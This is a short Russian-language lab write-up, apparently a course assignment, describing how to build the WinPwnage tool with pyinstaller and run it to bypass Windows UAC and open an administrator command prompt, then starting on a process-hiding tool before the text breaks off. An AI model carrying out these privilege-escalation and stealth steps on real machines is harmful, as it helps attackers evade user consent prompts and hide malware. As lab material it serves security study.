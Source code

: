 # Задача 2
*Для теста программ в задаче №2 использовалась виртуальная windows 10 191206-1406*

## 2.1 Решение:
Действительно, существует моножество вариантов обойти UAC, например, второй вариант [отсюда](https://github.com/rootm0s/WinPwnage#uac-bypass-techniques)

для начала нужно скомпилировать проект, сделать это можно так
```bash
pip install pyinstaller
pyinstaller --onefile main.py
```

В каталоге dist нас будет ожидать exe файл, который уже можно запусить на зараженном ПК.

далее запускаем полученный exe файл:
```bash
main --use uac --id 2 --payload c:\\windows\\system32\\cmd.exe
```
В результате открывается cmd с правами администратора без UAC

![Alt text](src/poc2.1.gif)

## 2.2 Решение:

Скачиваем проект [отсюда](https://github.com/kernelm0de/ProcessHider).
1. Устанавливаем набор инструментов от 2015 года, чтобы собрать проект.
